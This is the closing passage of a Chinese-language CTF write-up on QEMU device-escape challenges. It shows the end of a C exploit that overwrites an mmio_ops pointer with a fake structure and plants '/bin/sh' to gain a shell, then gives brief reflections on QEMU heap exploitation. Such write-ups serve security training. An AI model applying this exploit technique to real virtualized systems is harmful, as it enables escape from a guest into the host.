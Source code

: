 ```c
    // cover the mmio_ops to our fake struct
    iowrite64_1((unsigned long long)(-0xc8),heap_buffer_addr);
    iowrite64_1((unsigned long long)-0xbf8,0x68732f6e69622f);
    // trigger
    ioread32(0);
    return 0;
}
```

### 总结
感觉这几个 Qemu 题都不难，和正常的用户 pwn 相比其实区别在于我们可控的范围会更少，像是相邻两次 mmio_read/write 之间，qemu-system 干了啥对我们来说其实时是非常黑盒的   

并且 qemu-system 的堆布局会特别复杂，常规的 UAF/double free/堆溢出的 Hack 如果是按 how2heap 的手段打都是会非常 dirty   

所以可能需要先找**能否只攻击应用数据**，之前和轩哥聊的时候，说如果是考古题/非 C/C++ 堆题也应先考虑能否只攻击应用数据     
